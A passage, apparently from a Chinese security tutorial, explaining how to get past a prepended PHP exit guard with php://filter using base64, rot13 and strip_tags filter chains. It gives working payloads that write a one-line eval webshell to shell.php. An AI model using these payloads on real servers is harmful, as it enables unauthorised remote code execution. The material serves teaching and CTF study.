 **（2）base64解码过程**

base64解码，即是base64编码的逆过程，如果理解了编码过程，解码过程也就容易理解。将base64编码数据根据编码表分别索引到编码值，然后每4个编码值一组组成一个24位的数据流，解码为3个字符。对于末尾位“=”的base64数据，最终取得的4字节数据，需要去掉“=”再进行转换。

**（3）base64解码特点**

base64编码中只包含64个可打印字符，而PHP在解码base64时，遇到不在其中的字符时，将会跳过这些字符，仅将合法字符组成一个新的字符串进行解码。如果要解码成功，输入的密文必须为4的倍数

通过base64解码来跳过exit语句中的特殊符号，剩下的部分为```phpexit```共7字节，我们需要让这7字节独立解码以至于不会影响到我们后面输入的一句话木马的解码，因此，我们需要在后面填充一个字节，让其变成4的倍数。构造的payload如下：

```content=xPD9waHAgZXZhbCgkX1BPU1RbJ2hhY2snXSk7Pz4=```

其中x为填充字符

构造数据包，发送请求：

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220510154012.png)

上传结果如下：

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220510154034.png)

除了base64绕过，还可以用rot13编码绕过：



**方法（2）**

除了使用**base64**编码绕过，我们还可以使用**rot13**编码绕过。相比**base64**编码，**rot13**的绕过死亡之exit更加方便，因为不用考虑前面添加的内容是否可以用**base64**解码，也不需要计算可**base64**解码的字符数量。

rot13编码原理：

将当前字母变换为13个位置之后的字母，如a->n,b->o

```<?php exit; ?> ``` ->  ```<?cuc rkvg; ?>```，编码后边不会影响一句话木马的执行

构造数据包：

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220510155641.png)

上传结果如下：

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220510155706.png)

虽然**rot13**更加的方便，但是还是有缺点，就是当服务器开启了短标签解析，一句话木马即使写入了，也不会被PHP解析。



**方法（3）**

php://filter还支持多种过滤器一起使用

构造payload

```?filename=php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php```

```content=PD9waHAgZXZhbCgkX1BPU1RbJ2hhY2snXSk7Pz4=```

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220510160623.png)

strip_tags() 函数剥去字符串中的 HTML、XML 以及 PHP 的标签。



```